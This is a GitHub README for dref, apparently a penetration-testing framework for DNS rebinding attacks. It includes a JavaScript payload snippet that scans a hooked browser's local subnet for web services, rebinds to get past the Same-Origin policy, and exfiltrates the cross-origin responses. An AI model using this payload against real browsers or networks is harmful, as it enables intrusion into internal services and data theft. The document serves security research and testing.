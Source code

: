 <dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/logo.png">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <img src="https://travis-ci.com/mwrlabs/dref.svg?branch=master">
    <img src="https://codecov.io/gh/mwrlabs/dref/branch/master/graph/badge.svg">
    <a href="https://greenkeeper.io/">
      <img src="https://badges.greenkeeper.io/serain/netmap.js.svg">
    </a>
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.svg">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/diagram.png">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [built-in payloads](https://github.com/mwrlabs/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/mwrlabs/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet(24)

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, {
      successCb: (code, headers, body) => {
        // ... and exfiltrate it
        session.log({code: code, headers: headers, body: body})
      }
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/exfiltrated.png">
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/arrow-bottom-right.png">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/mwrlabs/dref/wiki) to get started or check out [dref attacking headless browsers](https://labs.mwrinfosecurity.com/blog/from-http-referer-to-aws-security-credentials/) for a practical use case.

<dl>
  <p align="center">
    <sub><i>This is a development release, <b>do not use in production</b></i></sub>
  </p>
</dl>

